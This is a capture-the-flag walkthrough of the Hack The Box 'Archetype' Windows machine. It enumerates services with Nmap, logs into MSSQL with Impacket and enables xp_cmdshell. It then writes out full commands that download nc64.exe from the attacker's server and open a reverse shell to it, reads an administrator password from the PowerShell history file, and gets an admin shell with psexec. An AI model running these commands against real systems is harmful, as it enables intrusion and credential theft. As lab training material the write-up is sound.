

# [OK] - Archetype

| Difficult: | Easy |
| --- | --- |
| OS: | Windows |
| Last edit: | 25/06/22 |

## **Enumeration:**

The first task was collect information from the target. So, we execute the Nmap to collect the ports and services running in the target.

```bash
**rmba@rmba:~/Downloads$** nmap -sV -sC 10.129.206.174 -T5
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-25 23:10 -03
Warning: 10.129.206.174 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.206.174
Host is up (0.22s latency).
Not shown: 984 closed ports
PORT      STATE    SERVICE      VERSION
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
808/tcp   filtered ccproxy-http
1022/tcp  filtered exp2
1053/tcp  filtered remote-as
1075/tcp  filtered rdrmshc
1334/tcp  filtered writesrv
1433/tcp  open     ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-06-25T23:53:57
|_Not valid after:  2052-06-25T23:53:57
|_ssl-date: 2022-06-26T02:10:39+00:00; 0s from scanner time.
2920/tcp  filtered roboeda
3551/tcp  filtered apcupsd
4446/tcp  filtered n1-fwp
5087/tcp  filtered biotic
7402/tcp  filtered rtps-dd-mt
10621/tcp filtered unknown
49156/tcp filtered unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-26T02:10:36
|_  start_date: N/A
```

### Impacket

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object-oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.

[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
```

Successfully authenticated to the Microsoft SQL Server using the Impacket

```bash
python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.64.227 -windows-auth

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Now here we have a MySql SQL-CLI. We can use this CLI to enable external commands CMD on the operational system. So, i search in google the qery “**How to use the xp_cmdshell extended procedure” .**

[How to use the xp_cmdshell extended procedure](https://www.sqlshack.com/use-xp-cmdshell-extended-procedure/)

```sql
# Verify if advanced options in SQL Server are enabled
USE master;  
GO  
EXEC sp_configure 'show advanced option'
#---------------------------------------------------------------------------

# Enable the Advanced Options, set the advanced option to 1
USE master;  
GO  
EXEC sp_configure 'show advanced option', '1';  
RECONFIGURE WITH OVERRIDE;
#---------------------------------------------------------------------------

# Xp_cmdshell is one of the advanced options, now you can enable this extended procedure
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
RECONFIGURE;
#---------------------------------------------------------------------------

# Xp_cmdshell is one of the advanced options, now you can enable this extended procedure
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
RECONFIGURE;
#---------------------------------------------------------------------------

# Testing
xp_cmdshell "whoami"
xp_cmdshell "powershell -c pwd"
#---------------------------------------------------------------------------
```

At this point we already have a shell and we can execute commands. But we will have a reverse shell for more flexibility. We will download the Netcat tool to Windows to get a shell.

[nc.exe/nc64.exe at master · int0x33/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

After download the file, we will use a python web-server HTTP to serve the file to target. 

```powershell
sudo python3 -m http.server 80
```

To revice the reverse shell connection. we will open a 443 port as listen: 

```powershell
sudo nc -lvnp 443
```

We already to put the file inside target and execute them. using the commands:

```sql
# Put file inside target
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.4/nc64.exe -outfile nc64.exe"

# Execute nc64.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.15.4 443"
```

We have the victim's shell



## Privilege Escalation

For privilege escalation, we are going to use a tool called **winPEAS** , which can automate a big part of the enumeration process in the target system.

Serve **winPEAS** file using python http.server:

Get file on target using curl:

```powershell
sudo python3 -m http.server 80
```

```powershell
curl http://10.10.15.4/winPEASx64.exe --output winPEASx64.exe
```

From the output we can observer that we have **SeImpersonatePrivilege.** We can first check the two existing files where credentials could be possible to be found.

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. To do that, we will read the PowerShell history file, which is the equivalent of .bash_history for Linux systems. The file ConsoleHost_history.txt can be located in the directory C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\.

```powershell

> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                                                             

Output: net.exe use T: \\Archetype\backups **/user:administrator MEGACORP_4dm1n!!**                      
```

We can now use the tool [psexec.py](http://psexec.py/) again from the Impacket suite to get a shell as the administrator:

```powershell
python3 psexec.py administrator@10.129.64.227
```

Get User and Root Flag:

```powershell
# Flag User
type C:/Users/sql_svc/Desktop/user.txt

# Flag Root
type C:/Users/Administrator/Desktop/root.txt
```

End!

by: rmba